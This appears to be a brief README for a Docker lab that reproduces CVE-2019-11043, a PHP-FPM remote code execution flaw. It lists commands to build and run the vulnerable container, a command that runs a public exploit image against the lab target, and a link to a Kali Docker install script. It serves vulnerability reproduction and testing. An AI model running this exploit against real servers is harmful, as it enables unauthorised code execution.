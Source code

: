 # byol

### build docker image 
`docker build -t reproduce-cve-2019-11043 .`
### run docker image 
`docker run --rm -ti -p 8080:80 reproduce-cve-2019-11043`
### test exploit 
`docker run --rm --net=host ypereirareis/cve-2019-11043 <ip>:8080/script.php`

### docker install script if you're using kali 
`https://gist.githubusercontent.com/decidedlygray/1288c0265457e5f2426d4c3b768dfcef/raw/9a50356da74e6cd271e0b00902783cfa39c6535b/kali_docker_install.sh`
